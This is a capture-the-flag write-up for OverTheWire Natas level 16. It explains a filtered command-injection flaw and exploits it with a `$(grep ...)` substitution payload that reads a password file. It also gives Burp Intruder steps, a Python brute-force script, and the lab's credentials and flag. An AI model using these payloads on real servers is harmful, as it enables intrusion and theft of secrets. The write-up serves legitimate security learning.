



# Natas Level 16 Writeup (natas16) – OverTheWire

## Overview

This level focuses on exploiting a command injection vulnerability with filtered characters.         
The goal is to find the password for the next level.

## Observation

When we open the page, we see an input field for searching.
> **"The response only shows filtered results from a dictionary file."**  
There is also a link to view the source code:
```
index-source.html
```

## Finding the Password

### Using Browser & BurpSuite
1. Open the source code.
2. It shows the `PHP` logic used:
    ```php
    if(preg_match('/[;|&`]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
    ```

3. The application blocks common special characters:
   ```
   ; | & ` \ ' "
   ```
4. Confirm injection:
   ```
   test$(ls)
   ```
   No error -> command substitution is allowed.
5. Extract password using command substitution:  
   Payload:
   ```
   anythings$(grep ^a /etc/natas_webpass/natas17)
   ```
   - Output present -> correct prefix  
   - No output -> incorrect  
6. Automate using BurpSuite Intruder:
   - Intercept request and send to **Intruder**
   - Set payload position:
     ```
     needle=anythings$(grep ^a /etc/natas_webpass/natas17)
     ```
   - Use character list:
     ```
     abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789
     ``` 
  
7. Run attack and identify correct character based on response difference.  
  
8. Repeat by extending prefix (`a`, `ab`, `abc`, ...) until full password is found.  

At the End we got `C`.

#### Proof
```text
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```

### Using Python

```python
import requests, string

target = 'http://natas16.natas.labs.overthewire.org'
char = string.ascii_letters + string.digits
session = requests.Session()
session.auth = ('natas16', 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo')
password = ''

while len(password) < 32:
    for c in char:
        # substituted command output adds with 'anythings'. like anythingsA
        query = f'anythings$(grep ^{password + c} /etc/natas_webpass/natas17)'
        r = session.post(target, data={'needle': query})
        # when we try right character that add with 'anythings'
        # It means 'anythings' not present in output
        if 'anythings' not in r.text:
            password += c
            print(f'Password Like {password}', end='\r')
            break
print(f'Password for natas17 is: {password}')
```

## Vulnerability

Improper input filtering allows command injection via command substitution.

## Flag
`EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC`
